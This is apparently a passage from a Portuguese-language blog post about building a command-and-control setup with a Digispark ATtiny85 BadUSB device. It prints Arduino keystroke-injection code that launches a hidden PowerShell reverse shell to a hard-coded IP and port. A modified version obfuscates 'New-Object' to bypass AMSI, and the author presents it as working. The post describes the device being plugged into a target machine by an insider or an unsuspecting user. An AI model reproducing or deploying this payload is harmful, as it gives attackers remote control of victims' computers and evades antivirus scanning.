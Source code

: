 Tudo o que um agente malicioso precisa fazer é alterar a carga útil, conforme mostrado abaixo.

![img-description](/img/202403021124.png)
_AMSI passada para trás_

Quando eu vi a mágica acontecendo, não tive dúvidas, corri para o meu código e fiz as seguintes alterações:

```c
# Original
DigiKeyboard.println(F("powershell -windowstyle hidden -command \"$client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()\"")); //powershell to attacker

# Modificado
DigiKeyboard.println(F("powershell -windowstyle hidden -command \"$client = N'ew'-Ob'j'ect Sy's'tem.Net.Sockets.TCPClient('93.188.166.167',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()\"")); //powershell to attacker
```

Pronto, eu estava de volta ao jogo!

Eu fui aconselhado a escrever esse tópico, pois ele ilustra muito bem o espírito do que é ser hacker que é frequentemente envolto em equívocos e conotações negativas, associado principalmente a indivíduos que invadem sistemas de computador ilegalmente, roubam dados ou causam danos digitais. No entanto, essa percepção simplista não captura a amplitude e a profundidade do verdadeiro significado de ser um hacker. Na essência, ser hacker é muito mais do que a imagem estereotipada do criminoso cibernético. É sobre paixão, curiosidade, inovação e um profundo desejo de entender como as coisas funcionam.

## Tecnologias utilizadas

A confluência de hardware, software e plataformas de comunicação é o que torna possível esse projeto C2.

[**- Digispark Attiny85:**](https://pt.aliexpress.com/item/1005004083799395.html?spm=a2g0o.productlist.main.5.3e14462bIDjiu4&algo_pvid=ec52b263-c0de-4517-a07f-800de48d9e49&aem_p4p_detail=202403020713142121106478121900002381707&algo_exp_id=ec52b263-c0de-4517-a07f-800de48d9e49-2&pdp_npi=4%40dis%21BRL%2117.79%2117.79%21%21%213.41%213.41%21%402101d69b17093923940438643e2308%2112000027982222291%21sea%21BR%21166681825%21AB&curPageLogUid=lPl2jNED95YY&utparam-url=scene%3Asearch%7Cquery_from%3A&search_p4p_id=202403020713142121106478121900002381707_3) Atua como o agente infeccioso, sendo inserido na porta USB da máquina-alvo por um usuário infiltrado ou desavisado. Este dispositivo é uma microcontroladora baseada em Arduino, notável por seu tamanho reduzido e flexibilidade.
